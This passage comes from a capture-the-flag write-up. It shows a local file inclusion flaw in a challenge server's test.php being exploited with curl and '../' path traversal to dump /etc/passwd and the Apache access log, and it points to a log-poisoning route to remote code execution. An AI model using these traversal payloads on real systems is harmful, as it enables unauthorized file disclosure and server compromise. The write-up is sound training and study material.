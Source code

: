 We can, for example, read `/etc/passwd`:
```console
root@kali:/media/sf_CTFs/hoshen/3# curl http://13.67.133.176/test.php?file=../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
hoshenCtf:x:1000:1000:Ubuntu:/home/hoshenCtf:/bin/bash
```

This allows us to read any file we have access to, but can we do better? There's a great cheat sheet for LFI in [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion).

It even has a recipe for LFI to RCE, which will allow us to execute code on the server. For this specific recipe to work, we need to be able to include a file which we can affect its content, such as the webserver access log: `/var/log/apache2/access.log`.

```console
root@kali:/media/sf_CTFs/hoshen/3# curl -s "http://13.67.133.176/test.php?file=../../../../var/log/apache2/access.log"
84.109.24.109 - - [14/Feb/2020:21:02:27 +0000] "GET /test.php?file=gallery.html HTTP/1.1" 200 829 "http://13.67.133.176/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
84.109.24.109 - - [14/Feb/2020:21:02:27 +0000] "GET /pages/gallery.css HTTP/1.1" 200 925 "http://13.67.133.176/test.php?file=gallery.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
84.109.24.109 - - [14/Feb/2020:21:02:27 +0000] "GET /gallery/sleep.jpg HTTP/1.1" 200 62003 "http://13.67.133.176/test.php?file=gallery.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
84.109.24.109 - - [14/Feb/2020:21:02:27 +0000] "GET /gallery/kano.jpg HTTP/1.1" 200 22926 "http://13.67.133.176/test.php?file=gallery.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
84.109.24.109 - - [14/Feb/2020:21:02:27 +0000] "GET /gallery/torha.jpg HTTP/1.1" 200 40999 "http://13.67.133.176/test.php?file=gallery.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
84.109.24.109 - - [14/Feb/2020:21:02:27 +0000] "GET /gallery/sloth.jpg HTTP/1.1" 200 76794 "http://13.67.133.176/test.php?file=gallery.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36"
```